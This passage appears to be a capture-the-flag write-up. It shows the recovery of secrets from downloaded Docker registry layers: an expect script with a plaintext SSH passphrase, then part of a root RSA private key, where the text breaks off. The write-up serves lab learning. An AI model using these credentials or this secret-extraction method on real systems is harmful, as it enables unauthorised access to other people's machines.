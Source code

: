 ```python
Give a directory name:  hello
Now sit back and relax. I will download all the blobs for you in hello directory. 
Open the directory, unzip all the files and explore like a Boss. 

[+] Downloading Blob: 302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b

[+] Downloading Blob: 3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee

[+] Downloading Blob: 02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c

[+] Downloading Blob: c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7

[+] Downloading Blob: 2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791

[+] Downloading Blob: a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4

[+] Downloading Blob: f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0

[+] Downloading Blob: d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a

[+] Downloading Blob: 8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797

[+] Downloading Blob: f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff
```

We read the `302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b.tar` and find out that it has a `01-ssh.sh` file
![[Pasted image 20210718191931.png]]
```bash
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

We could now read the `2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791.tar` and find our `SSH` keys from the `/root/.ssh` directory.
![[Pasted image 20210718192517.png]]

We could use the key and the passphrase `GkOcz221Ftb3ugog`.

Bolt Unlocked `SSH` key.
```txt
-----BEGIN RSA PRIVATE KEY-----
MIIJKAIBAAKCAgEA0NEAdj18m9gFEobKY8oLZKo81xbl9HW2sjyP4qzhGAgDrYEL
Pp2/SI972WV/izD6TbViWhhfrYv+YE454X48jY4uy/90numiCQKjJRapH/hOcSp7
UZTPXaajDDUS4AGACluZY+TnIkO2Wl8e27aGC4kB5cV24/EcBIq1rhasG4tpc53J
AFPVGtQ0rusinaiCKZAdhbyVRWpE0t9hWoCfqxpvUyFnojj2kLyocl0NI3gS+EnY
uT5oS7ZHThFlYGFUqFmjsrYQNydnNVAIX5eXSxktBbg+A7+OscqyPB+4KQHsWtch
dynouD0xwRCEMbHHo7HwhDlWcHuLJ4GCq1O6OrH9K1qTn+4x7hFDAmVUIEOeX779
dD+ggNqoT0P26Ss6dqRl0W9V3a+r/jm4EOJJ5CtRiqjnoDmp3tMMoQ+URUBfzXmA
ardVCDNiooA7/X6BDXO6fR4RxhaFiRM8jnlgpuEHEoPR9mYH2UQIQqIhIox4dfUn
TYfcGp8nZGo/R+4k7LzQ4vDjeLC0Ro1QbHzy5flIyCLB1PmxvqcR1M2+uchyfIhV
/g53SZ3HW0LOl/QpIoufBJQZpElA0maRbDlfNb1ZOqnRpvhAXKVTtPWLAtN51I9V
RB7UBvIThv7SanrAedCORm4u/ldqmYrd2WTr5IVReZdjdFPWrI0qSE+QZqMCAwEA
AQKCAgB9aQid+s+byWFCfzGOPQoaqyNfCqGQ8CGJalYADVQi2q1axuW59YOsUIBR
UGQJdKDfitBGy9yqniloLZMVmntDiOESI5om1qo6Pxs8ax+n07lIvfrSRE1GMY47
BqUPY9dCYUD+fbtTGNer7vTZgAWBaAd7t9xviZ8KG0SCCZvT7yamCV1ulOqn8kqx
wwZHKa0CyUrxxxDfX7N18jLF5/n9CSNTCfzzsMJkqul/xeLeKn86Hx/KIXECB7dL
a6c2+z2c3jkyW6XhegjCPA7LWn/C2pvvk3erSKCqptHkyigQeNc6t3mh18ms3RPE
n+bE8cC0z2lkAAuqAojQcTfJLb/p6oon3RAIVNv/2ec0HktGEWtFpALDIaPBmPLK
```